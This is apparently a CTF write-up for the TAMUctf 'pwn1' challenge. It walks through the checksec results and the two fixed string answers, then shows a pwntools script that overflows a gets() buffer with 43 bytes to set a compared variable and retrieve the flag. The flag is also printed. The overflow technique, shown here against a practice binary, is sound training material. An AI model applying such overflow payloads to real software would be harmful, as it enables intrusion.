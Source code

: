 # pwn1 

![](./pwn1_brief.png)

### Links
```
nc pwn.tamuctf.com 4321
```

### Solution
For this challenge we are provided with a binary.

Running checksec gives us:
```diff
[*] './pwn1'
    Arch:     i386-32-little
+    RELRO:    Partial RELRO
-    Stack:    No canary found
+    NX:       NX enabled
+    PIE:      PIE enabled
```

As we can see ```NX``` is enabled so we're not going to be able to run shellcode here.

The challenge asks us questions and only continues if we provide the correct response. The first two questions are trival strcmps

The second ```strcmp``` is shown below:

![](./images/pwn1_ida.png)


Question 1:
```
Q: What... is your name?\n
A: Sir Lancelot of Camelot\n
```

Question 2:
```
Q: What... is your quest?\n
A: To seek the Holy Grail.\n
```

The final question is where the overflow action is. From the decompilation we can see we need to overwrite a variable.

![](./images/pwn1_overflow_ida.png)

As it can be seen from the assembly we have a ```gets``` call with a buffer starting at ```ebp + 3Bh```.  The ```cmp``` instruction looks at ```ebp + 10h```. 

Therefore, this gives us a buffer size of 43 before we can push our value into the variable.

Below is the exploit code:

```python
from pwn import *

r = remote("pwn.tamuctf.com", 4321)

r.recvuntil("name?")
r.sendline("Sir Lancelot of Camelot")
r.recvuntil("quest?")
r.sendline("To seek the Holy Grail.")
r.recvuntil("secret?")

payload = b""
payload += b"A" * 43
payload += p32(0xdea110c8)

r.sendline(payload)
print(r.recvall().decode("utf-8"))
```

The code pushes the value of ```0xdea110c8``` into the location of the ```cmp``` instruction. When run it provides us with the flag.

```
FLAG: gigem{34sy_CC428ECD75A0D392}
```
